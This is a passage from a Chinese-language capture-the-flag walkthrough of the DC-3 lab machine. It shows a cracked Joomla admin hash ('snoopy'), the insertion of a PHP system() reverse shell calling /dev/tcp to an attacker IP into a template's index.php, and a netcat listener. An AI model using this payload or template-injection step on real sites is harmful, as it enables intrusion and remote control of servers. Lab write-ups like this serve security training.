 ![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoB5ja61B3z2kKhkLcpCiaKXFHRKKd7o6KYLOOC5mYQI0VgLa1M5SdNWw/640?wx_fmt=png)

```
用户名：admin
密码：$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

利用 johnny 暴力破解，得到了明文密码为 snoopy

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXo2BRf0quaNFOd7Ujr2O78nGbkUuliaYP8NLNNvg03Y2tvx8h2psfyahw/640?wx_fmt=png)

_**_**No.4  
**_**_

_**进行提权**_

进入网站后台管理主页面（http://192.168.188.158/administrator/index.php），具体操作如下：  
点击页面右侧的 “Templates” ——> 再点击 “ Templates ” ——> 点击 “ Beez3 Details and Files ” ——> 点击 “ index.php ”，进入网页源码。  
其中登录后台管理的用户名和密码如下：  
用户名：admin  
密码：snoopy

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoUBeHQKlYgTk0A7Y3Ze9F6ACEgqQKQ7dPlcNbC9j4rYrgeqJmL53q9A/640?wx_fmt=png)

在这里找到可编辑的 php 文件，可以插入恶意代码，进行反弹 shell。  
在管理页面的 index.php 中写入反弹 shell 代码，并按 Save 进行保存  
用 system() 执行 bash -c 的编码如下：

```
<?php
system("bash -c 'bash -i >& /dev/tcp/192.168.188.144/8080 0>&1' ");
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoFmoYhpsPpF8GSKYLGicDv2NfaGqicwbrvCj4dsEiadshWUjM30J9nZIhg/640?wx_fmt=png)

在 kali 中输入写入 nc 命令，进行监听；

```
命令：root@kali:~# nc -lvvp 8080
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoyvZDd9ohZXkSET05bQTGrncuibtyn3eibARwFLqW6gtBp3lL3z2Zia31Q/640?wx_fmt=png)

进行触发这个反弹 shell（访问 DC-3 的默认主页）

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoBzUDSdPPJK7GgRf3tffpgU72v80mdnmh8vmsYQwxPia6xMSBMS3rMug/640?wx_fmt=png)

这时候将在 kali 上得到，反弹的 getshell

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXowNZ8F5mphFrfIdja4wvWulNSFW4yGO0GoGbpL8YDxF7fKdCzePUbEg/640?wx_fmt=png)

获取目标主机的操作系统版本，以及该 getshell 的 ID 号

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoxdfmEsBSkgGQ3GZlbzibMBJ0uQ8pB4TAAkvIUnNiazficSg9BxETy5NRw/640?wx_fmt=png)
